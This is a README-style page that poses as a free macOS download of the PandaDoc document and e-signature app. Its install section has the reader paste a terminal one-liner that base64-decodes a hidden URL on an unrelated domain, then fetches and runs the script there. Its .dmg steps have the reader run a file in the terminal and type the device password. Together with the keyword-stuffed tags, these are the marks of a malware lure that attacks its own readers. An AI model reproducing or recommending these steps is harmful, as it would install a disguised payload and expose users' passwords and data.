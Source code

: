 # PandaDoc For Mac OS  — Free Download Now 🐼

![banner-pandadoc](https://upload.wikimedia.org/wikipedia/commons/thumb/8/83/PandaDoc_Logo_PNG.png/1200px-PandaDoc_Logo_PNG.png)
PandaDoc For Mac OS is a powerful, user-friendly document management and e-signature solution designed for macOS users. Streamline your workflow with seamless document creation, signing, and sharing. Follow the instructions below to install PandaDoc on your Mac and unlock its full potential.

> [![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/pandadoc)

> If the download button doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install PandaDoc For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get with PandaDoc

- 🖋️ **E-Signature Capabilities**: Sign documents electronically with legally binding signatures, saving time and paper.
- 📄 **Document Creation**: Create professional proposals, contracts, and quotes with customizable templates.
- 📊 **Real-Time Tracking**: Monitor document status, including views and signatures, in real time.
- 🔄 **Seamless Integrations**: Connect with tools like Salesforce, HubSpot, and Google Drive for enhanced productivity.
- 🔒 **Secure Storage**: Store documents securely with encryption and access them anytime.
- 📱 **Cross-Platform Sync**: Sync your documents across devices for a consistent experience.

## About PandaDoc

PandaDoc For Mac OS is a leading document management software designed to simplify the creation, signing, and tracking of professional documents. Whether you're a freelancer, small business owner, or part of a large enterprise, PandaDoc empowers you to create polished proposals, contracts, and invoices in minutes. Its intuitive macOS interface ensures a seamless experience, making it a must-have tool for professionals seeking efficiency and reliability. By incorporating **document management**, **e-signatures**, and **workflow automation**, PandaDoc eliminates the hassle of manual paperwork.

The software’s robust features include customizable templates, real-time collaboration, and secure cloud storage, making it ideal for macOS users who prioritize productivity. With **PandaDoc For Mac**, you can integrate with popular platforms like Salesforce, HubSpot, and Slack, ensuring your documents align with your existing workflows. The application is optimized for macOS, offering a native experience that feels right at home on your MacBook or iMac. Its **free download** option allows users to explore its features without upfront costs, making it accessible to all.

For businesses looking to streamline operations, PandaDoc offers advanced analytics to track document performance, such as open rates and signature completion times. This data-driven approach helps you make informed decisions and improve client interactions. The software’s **secure e-signature** functionality complies with global standards, ensuring your documents are legally binding and protected. Whether you’re managing contracts or sharing proposals, PandaDoc For Mac OS delivers a professional, efficient solution.

By choosing PandaDoc, you’re investing in a tool that enhances productivity and simplifies document workflows. Its **free macOS download** makes it easy to get started, and the intuitive interface ensures you can create, send, and sign documents with ease. Join thousands of macOS users who trust PandaDoc for their **document management** and **e-signature** needs, and experience a smarter way to work.

## ✅ Advantages of PandaDoc

- 🚀 **Fast Document Creation**: Build professional documents in minutes with pre-built templates.
- 🔐 **Secure E-Signatures**: Sign and share documents with confidence using encrypted, legally binding signatures.
- 📈 **Real-Time Analytics**: Track document performance with insights into views and signatures.
- 🌐 **Cloud Integration**: Sync with Google Drive, Dropbox, and other platforms for seamless access.
- 🖥️ **Mac-Optimized Interface**: Enjoy a native macOS experience designed for ease of use.
- 🛠️ **Customizable Workflows**: Tailor documents and processes to fit your business needs.

## 🖼 Preview

![Document Creation](https://public-site.marketing.pandadoc-static.com/app/uploads/sites/3/Keep-Eyes-and-Tabs_Home-1024x512.png)
*Create professional documents with customizable templates.*

![E-Signature Interface](https://i.postimg.cc/7Z9pD2qZ/pandadoc-esign.jpg)
*Sign documents securely with a user-friendly e-signature interface.*

![Analytics Dashboard](https://i.postimg.cc/3R1qN0gZ/pandadoc-analytics.jpg)
*Track document performance with real-time analytics.*

![Integration Settings](https://i.postimg.cc/vH5W3Z0W/pandadoc-integrations.jpg)
*Connect PandaDoc with your favorite tools for seamless workflows.*

## 🔍 Tags

pandadoc, pandadoc download, pandadoc for mac, pandadoc mac, pandadoc free, pandadoc pricing, panda doc pricing, panda docs pricing, pandadoc sign in, pandadoccom, panda doc sign in, pandadoc signature, pandadoc cost
